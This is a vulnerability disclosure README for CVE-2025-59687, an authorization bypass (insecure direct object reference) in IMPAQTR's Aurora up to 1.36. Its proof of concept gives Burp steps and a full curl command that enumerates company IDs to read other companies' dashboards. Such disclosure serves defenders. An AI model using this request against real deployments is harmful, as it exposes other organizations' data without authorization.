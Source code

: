 # CVE-2025-59687

IMPAQTR's Aurora before version 1.36 allows authorization bypass via a direct request for https://URLt/api/cdmc/all/dashboards/company/company_id.

Improper Access control often presents a serious security vulnerability as they can allow attackers to access resources or perform actions, they should not be able to. It was noted that the application function such as notification, users list, organization details and bookmarks are vulnerable to Indirect object reference vulnerability.


# Affected Product & Version
IMPAQTR's Aurora <= 1.36

Reference: https://aurora-impaqtr.com/

# PoC

1. Start interception in proxy tool such as Burp
2. Login to the application and you will notice a GET request made to https://URL/api/cdmc/all/dashboards/company/COMPANY-ID, send this request to repeater and change the ID with multiple values in the URL to view other company details 
You can also run the following curl command by replacing the token here to fetch other company details:  
 ````````````
 curl --path-as-is -i -s -k -X $'GET' \
     -H $'Host: URL’ -H $'Sec-Ch-Ua: \"Chromium\";v=\"125\", \"Not.A/Brand\";v=\"24\"' -H $'Accept: application/json, text/plain, */*' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'Authorization: Bearer YOUR TOKEN' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36' -H $'Sec-Ch-Ua-Platform: \"Linux\"'  -H $'Sec-Fetch-Site: cross-site' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty'  -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Priority: u=1, i' -H $'Connection: keep-alive' \
 
     $'https://URL/api/cdmc/all/dashboards/company/1647 
````````````




# Credits
This vulnerability was discovered by Rahul Kadavil of Henkel Cyber Security Team.
